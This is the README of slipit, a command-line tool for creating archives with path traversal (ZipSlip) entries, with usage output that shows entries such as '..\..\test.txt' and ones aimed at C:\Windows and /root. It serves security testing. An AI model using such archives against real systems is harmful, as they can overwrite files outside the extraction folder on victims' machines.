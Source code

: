 ### slipit

----

*slipit* is a command line utility for creating archives with path traversal elements.
It is basically a successor of the famous [evilarc](https://github.com/ptoomey3/evilarc)
utility with an extended feature set and improved base functionality.

![](https://github.com/usdAG/slipit/workflows/master%20Python%20CI/badge.svg?branch=master)
![](https://github.com/usdAG/slipit/workflows/develop%20Python%20CI/badge.svg?branch=develop)
[![](https://img.shields.io/badge/version-1.0.0-blue)](https://github.com/usdAG/slipit/releases)
[![](https://img.shields.io/badge/build%20system-pip-blue)](https://pypi.org/project/slipit)
![](https://img.shields.io/badge/python-9%2b-blue)
[![](https://img.shields.io/badge/license-GPL%20v3.0-blue)](https://github.com/usdAG/slipit/blob/master/LICENSE)

```console
[user@host ~]$ slipit archive.tar.gz
?rw-r--r-- user/user         24 2022-08-25 10:57:35 legit.txt
[user@host ~]$ slipit archive.tar.gz file1.txt file2.txt
[user@host ~]$ slipit archive.tar.gz
?rw-r--r-- user/user         24 2022-08-25 10:57:35 legit.txt
?rw-r--r-- user/user          3 2022-08-25 10:56:41 ..\..\..\..\..\..\file1.txt
?rw-r--r-- user/user          3 2022-08-25 10:56:44 ..\..\..\..\..\..\file2.txt
[user@host ~]$ slipit archive.tar.gz file1.txt --depth 3 --increment 1
[user@host ~]$ slipit archive.tar.gz
?rw-r--r-- user/user         24 2022-08-25 10:57:35 legit.txt
?rw-r--r-- user/user          3 2022-08-25 10:56:41 ..\..\..\..\..\..\file1.txt
?rw-r--r-- user/user          3 2022-08-25 10:56:44 ..\..\..\..\..\..\file2.txt
?rw-r--r-- user/user          3 2022-08-25 10:56:41 ..\file1.txt
?rw-r--r-- user/user          3 2022-08-25 10:56:41 ..\..\file1.txt
?rw-r--r-- user/user          3 2022-08-25 10:56:41 ..\..\..\file1.txt
[user@host ~]$ slipit archive.tar.gz --clear
[user@host ~]$ slipit archive.tar.gz
?rw-r--r-- user/user         24 2022-08-25 10:57:35 legit.txt
```

### Installation

----

*slipit* can be installed via [pip](https://pypi.org/project/pip/) by running the following commands:

```console
$ git clone https://github.com/usdAG/slipit
$ cd slipit
$ python3 setup.py sdist
$ pip3 install --user dist/* 
```

*slipit* also supports autocompletion for *bash*. To take advantage of autocompletion, you need to have the
[completion-helpers](https://github.com/qtc-de/completion-helpers) project installed. If setup correctly, just
copying the [completion script](./resources/bash_completion.d/slipit) to your ``~/.bash_completion.d`` folder enables
autocompletion.


### Usage

----

```console
[user@host ~]$ slipit -h
usage: slipit [-h] [--archive-type {zip,tar,tgz,bz2}] [--clear] [--debug] [--depth int] [--increment int]
              [--overwrite] [--prefix string] [--multi] [--remove name] [--separator char] [--sequence seq]
              [--static content] [--symlink target] archive [filename ...]

slipit v1.0.0 - Utility for creating ZipSlip archives.

positional arguments:
  archive               target archive file
  filename              filenames to include into the archive

options:
  -h, --help            show this help message and exit
  --archive-type {zip,tar,tgz,bz2}
                        archive type to use
  --clear               clear the specified archive from traversal items
  --debug               enable verbose error output
  --depth int           number of traversal sequences to use (default=6)
  --increment int       add incremental traversal payloads from <int> to depth
  --overwrite           overwrite the target archive instead of appending to it
  --prefix string       prefix to use before the file name
  --multi               create an archive containing multiple payloads
  --remove name         remove files from the archive (glob matching)
  --separator char      path separator (default=\)
  --sequence seq        use a custom traversal sequence (default=..{sep})
  --static content      use static content for each input file
  --symlink target      add as symlink (only available for tar archives)
```

*slipit* expects the targeted output archive and an arbitrary number of input files as mandatory command line
parameters. All specified input files are appended to the specified archive including a path traversal prefix
with a depth specified with the `--depth` option (default is 6). The targeted archive format is determined
automatically depending on the file extension for non existing archives or by the mime type for already existing
archives. You can also specify the archive type manually by using the `--archive-type` option.

```console
[user@host ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
[user@host ~]$ slipit example.zip test.txt
[user@host ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
..\..\..\..\..\..\test.txt                     2022-02-02 18:40:48           36
```

*slipit* expects the specified input files to exist on your local file system and uses the file content of
them within the archive. Often times this is not necessary and you just require dummy content to test for
*ZipSlip* vulnerabilities. This is where the `--static <string>` option can be helpful. When using this option,
only the filenames of the specified input files are used within the archive, while their content is set to `<string>`.

```console
[user@host ~]$ slipit example.zip test2.txt --static 'HELLO WORLD :D'
[user@host ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
..\..\..\..\..\..\test.txt                     2022-02-02 18:40:48           36
..\..\..\..\..\..\test2.txt                    2022-02-02 18:45:22           14
```

By using the `--clear` option, you can clear an archive from path traversal payloads.

```console
[user@host ~]$ slipit --clear example.zip 
[user@host ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
```

*slipit* also allows to create an archive containing multiple payloads by using the `--multi` option:

```console
[user@host ~]$ slipit example.zip test.txt --static content --multi
[user@host ~]$ slipit example.zip 
File Name                                             Modified             Size
C:\Windows\test.txt                            2022-02-03 09:35:28            7
\\10.10.10.1\share\test.txt                    2022-02-03 09:35:28            7
/root/test.txt                                 2022-02-03 09:35:28            7
../test.txt                                    2022-02-03 09:35:28            7
..\test.txt                                    2022-02-03 09:35:28            7
../../test.txt                                 2022-02-03 09:35:28            7
..\..\test.txt                                 2022-02-03 09:35:28            7
../../../test.txt                              2022-02-03 09:35:28            7
..\..\..\test.txt                              2022-02-03 09:35:28            7
../../../../test.txt                           2022-02-03 09:35:28            7
..\..\..\..\test.txt                           2022-02-03 09:35:28            7
../../../../../test.txt                        2022-02-03 09:35:28            7
..\..\..\..\..\test.txt                        2022-02-03 09:35:28            7
```


### Supported Archive Types

----

Currently, the following archive types are supported (just naming their most common extension):

* `.zip`
* `.tar`
* `.tar.gz`
* `.tar.bz2`
